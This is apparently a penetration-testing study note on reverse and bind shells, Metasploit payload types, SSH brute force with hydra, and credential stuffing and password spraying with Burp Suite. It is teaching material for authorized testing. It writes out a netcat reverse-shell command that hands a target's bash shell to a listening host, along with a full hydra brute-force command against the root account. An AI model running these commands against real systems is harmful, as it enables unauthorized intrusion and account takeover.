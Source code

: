 ```yaml
---
tags:
- type/reference/ethical-hacking
- context/phase/exploitation
- topic/phases/hacking
---
```


## Reverse Shell vs Bind shell
### Netcat Reverse Shell
- Most common
	- You use it 95% of the time
- A shell gives you access to a machine
	- Attackbox listens - target connects
- A reverse shell is a shell that allows a victim to connect to you
	- You can have netcat active on the attackbox listening on a port, and the target connects to your IP on the same port via netcat
- Port forward or port trigger is needed to connect the target's public IP to the attackbox's private IP
- Example connection
	- Attacker: `nc -nvlp 4444`
	- Target: `nc 192.168.57.6 4444 -e /bin/bash`
- ![Netcat Reverse Shell](assets/Screenshot%20from%202025-09-03%2013-56-41.png)
### Netcat Bind Shell
- Less common
	- Mostly on external assessments
- Most useful when you need to bypass a firewall or when reverse shell isn't working
- The attackbox connects to the target
	- Attackbox connects - target listens
- We open a port on the target via an exploit, then connect to it via netcat
- No need for port forwarding since we connect the attackbox's public IP to the target's private IP
- ![Netcat Bind Shell](assets/Screenshot%20from%202025-09-03%2013-44-18.png)

## Staged vs Non-Staged Payloads
- A payload is what you run as an exploit
- There are different types of payloads
	- Windows payloads
	- Linux payloads
	- Meterpreter payload
		- An attack payload used in [[Hacking Tools#Metasploit |Metasploit]]
		- There are at least 500 payloads in [[Hacking Tools#Metasploit |Metasploit]] alone
- The main difference between a non-staged and a staged payload's syntax is the forward slash `/`
	- Non-staged
		- `windows/meterpreter_reverse_tcp`
	- Staged
		-  `windows/meterpreter/reverse_tcp`
### Staged payloads
- Sends exploit shell payload in stages
- Can be less stable than non-staged
### Non-Staged payloads
- Sends exploit shell code all at once
- Large in size than staged
- Doesn't always work
- ![Staged vs Non-staged](assets/Screenshot%20from%202025-09-04%2011-40-25.png)

## Brute Force
###  SSH
- **Refer To**:
	- [[Common ports and protocols#2. SSH - Secure Shell]]
- You can brute force attack it in a few ways
	- Using hydra
		- Syntax: `hydra -l root -P /usr/share/wordlists/metasploit/unix_passwords.txt ssh://192.168.57.4:22 -t 4 -V`
			- -P is a password list
			- -t is the number of consecutive attempts or threads
			- -V is verbose
	- Using metasploit
		- Search for an auxiliary ssh login scanner
		- Use the found scanner
		- Check and set the options
		- The required options will be very similar to hydra
- You can use weak or default credentials to test password strength
- The assessment includes if the blue team can catch you
# Credential Stuffing and Password Spraying
### Credentials stuffing
- It's the act of injecting breached account credentials in hopes of an account takeover
- These credentials can be acquired from [[Reconnaissance#^ce5358|leaks]]
- Example attack using [[Hacking Tools#Butp suite|burp suite]] [[Hacking Tools#^cbb090|pitchfork]] attack
	- You're logging into a website for which you have leaked credentials
	- You select from intruder's positions tab the email value, and password value
	- You select pitchfork, and provide it via the payloads tab with a list of usernames for param 1 (the email value param) and a list of passwords for param 2 (the password value param)
	- Pitchfork will try each username of password of equal index together to attempt logging in with them
	- As the attack is running it will show you each attempt and its result
	- You can filter by unsuccessful attempts by checking the response of any of the attempts, and if it failed, copy the failure message then go to the options tab and add it in the grep feature
### Password spraying
- Disclaimer: you must always ask about the number of possible attempts before the account is locked
	- Trying this technique blindly with a bunch of employee usernames can cause mass account locking and DoS for the client company
- Example attack using [[Hacking Tools#Butp suite|burp suite]] [[Hacking Tools#^837b27|sniper]] attack
	- The start is the same as the pitchfork attack, but you select only the email value as your param
	- This attack will try every email in the list once with a common password
# BufferOverflow
- This topic is being discussed separately over here [[Buffer Overflow index|Buffer Overflow]]
# Notes
- If a payload fails, try the other type
	- You send a non-staged payload and it fails, try a staged payload
	- Your failed payload was a reverse shell? Try a bind shell